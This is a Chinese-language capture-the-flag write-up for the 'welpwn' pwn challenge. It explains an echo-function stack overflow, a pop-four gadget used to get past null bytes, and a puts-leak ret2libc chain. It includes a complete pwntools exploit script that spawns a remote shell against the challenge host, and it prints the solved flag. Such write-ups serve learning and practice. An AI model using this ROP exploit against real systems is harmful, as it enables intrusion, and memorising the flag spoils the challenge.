

# welpwn

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=d3f1c5ba-629a-46a3-a6b0-fabc4956585c_2&task_category_id=2)

这题看着writeup再按照自己的情况改造一下，然后稀里糊涂做出来了。其实不太懂原理。

ghidra和shell双管齐下，一个反编译，一个运行+checksec。

-   Arch:     amd64-64-little
    <br>RELRO:    Partial RELRO
    <br>Stack:    No canary found
    <br>NX:       NX enabled
    <br>PIE:      No PIE (0x400000)

运行发现程序作用是输出前面输入的内容。main函数中调用了echo函数来实现这一点。我最开始还以为c语言里面有echo，还去搜了下(･_･;。main函数里面没有栈溢出。

```c
undefined8 main(void)
{
  undefined local_408 [1024];
  write(1,"Welcome to RCTF\n",0x10);
  fflush(stdout);
  read(0,local_408,1024);
  echo(local_408);
  return 0;
}
```

但是echo函数就有问题了。


echo的参数是local_408，长度最长可以有1024个字节。但是echo内部的local_18只有16个字节。理论上是个简单的rop，但是echo内部的实现有点恶心。for循环会拷贝参数的每一个字节存到local_18里，一旦遇到\0就停止拷贝。

这对我们有什么影响呢？64位的程序中的地址末尾一定会有\0，意味着我们没法构造跳来跳去的rop链了，最多只能改变一次返回地址，也就是echo的。其实吧到这里我还没有任何思路，看writeup才发现可以跳到一段连续pop4次的gadget，然后就可以继续执行rop链了。

为什么pop4次就能执行rop链的原理讲解最好的writeup是题目writeup区seaase写的那个。不用再去别的地方搜了，别的都没讲。我自己再记录一下，还是要了解一下栈。



这张图非常清楚。首先在ghidra中可以看到local_18距离栈基指针rbp有0x18个字节，所以溢出前先要0x18个字节填充，接着是pop4次的gadget。程序在返回到gadget时调用了ret指令，这个指令的定义如下：

- 返回(ret)：与call指令配合，用于从函数或过程返回。从栈顶弹出返回地址(之前call指令保存的下条指令地址)到EIP寄存器中，程序转到该地址处继续执行(此时ESP指向进入函数时的第一个参数)。若带立即数，ESP再加立即数(丢弃一些在执行call前入栈的参数)。使用该指令前，应使当前栈顶指针所指向位置的内容正好是先前call指令保存的返回地址。

说明在返回后，echo 0x20的栈帧的rsp就已经指向local_408了。（两个函数的local_408和local_18挨着，这是能实现\0绕过的关键点）。现在gadget又pop4次，继续把rbp往上移，那么rbp指向的就是rop链的下一个地址了。pop4次gadget返回时，栈顶rbp指向的地址就是下一条要执行的指令，也就是rop链的下一个gadget。种种巧合使我们成功绕过\0。

现在就是找pop4次的gadget。ropgadget命令搞定。

- ROPgadget --binary ctf --only 'pop|ret'

0x000000000040089c完美符合要求。接下来就简单了，按普通rop那么搞就行了。网上一般就两种套路：使用pwntools的DynELF找函数地址，或者libcSearcher。但是我既无法使用dynelf，也没有libcsearcher，所以我会使用老方法——在线libc库搜索。还有一个点，很多人用write来泄露地址，不过我永远是puts的忠实粉丝。就是这里不知道为啥puts泄露地址的地方有点诡异，在Welcome to RCTF这句话之后，还有两个字节不算。慢慢摸索找到了正确获取地址的方式。这次远程机使用的libc也和之前不一样，试了好多次，差点放弃不过最后还是做出来了。(^V^)

再补充一下，也有很大一部分人用万能gadget来实现。我觉得有点麻烦就没用，不过还是推荐学习一下万能gadget的，有点厉害。万能gadget的使用也可以在题目的writeup区找到。

```python
from pwn import *
puts_got = 6295576
puts_plt=4195744
main_addr=0x004007cd
pop_r12_r13_r14_r15=0x000000000040089c
pop_rdi=0x00000000004008a3
payload=b'a'*0x18+p64(pop_r12_r13_r14_r15)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
proc=remote("61.147.171.105",52217)
proc.sendlineafter("Welcome to RCTF",payload)
puts_addr=u64(proc.recvn(50)[-6:].ljust(8,b'\x00'))
system_offset=-0x2a300
bin_sh_offset=0x11d6c7
payload=b'a'*0x18+p64(pop_r12_r13_r14_r15)+p64(pop_rdi)+p64(puts_addr+bin_sh_offset)+p64(puts_addr+system_offset)+p64(main_addr)
proc.sendlineafter(b"\n",payload)
proc.interactive()
```

- ### Flag
  > cyberpeace{80b05b8c5d023cebb52a93348ff7b4da}

